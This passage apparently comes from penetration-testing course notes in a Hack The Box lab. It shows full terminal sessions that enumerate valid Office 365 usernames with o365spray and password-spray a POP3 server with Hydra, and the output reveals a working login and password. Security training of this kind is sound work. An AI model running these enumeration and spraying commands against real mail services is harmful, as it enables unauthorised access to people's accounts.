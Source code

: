 Now ID the usernames
```shell-session
datboyblu3@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

### Password Attacks

Hydra can be used to for password spraying or brute force attacks for SMTP, POP3 and IMAP


**HYDRA - Password Attacks**
```shell-session
datboyblu3@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```
